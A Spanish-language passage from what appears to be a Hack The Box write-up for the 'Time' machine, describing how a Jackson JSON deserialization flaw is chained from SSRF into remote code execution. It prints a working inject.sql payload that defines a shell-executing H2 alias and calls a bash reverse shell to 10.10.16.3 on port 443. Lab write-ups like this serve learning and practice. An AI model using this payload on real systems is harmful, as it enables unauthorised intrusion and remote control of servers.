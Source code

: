 
Investigando un poco encontramos que existe una vulnerabilidad a una libreria `jackson` que se usa para la deserealizacion `JSON` y mediante ello podemos realizar ataques de `SSRF` y derivarlo a una ejecucion remota de comandos.


Si deseas entender a mayor detalle la vulnerabilidad te dejo el siguiente articulo:

* [https://blog.doyensec.com/2019/07/22/jackson-gadgets.html](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)


Para explotar esta vulnerabilidad debemos crear un archivo `inject.sql` con el siguiente contenido:

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.16.3/443 0>&1')
```

En la función `shellexec`, introducimos el codigo que queremos que se ejecute cuando suceda la desearialización. En este caso introduciremos una instrucción en `bash` que nos permita obtener una reverse shell.


Lo siguiente ejecutar lo siguiente instrucción en el `JSON PARSER`, donde especificaremos nuestra ip, donde nos compartiremos el archivo `inject.sql`

![](/assets/images/HTB/htb-writeup-Time/time5.PNG)
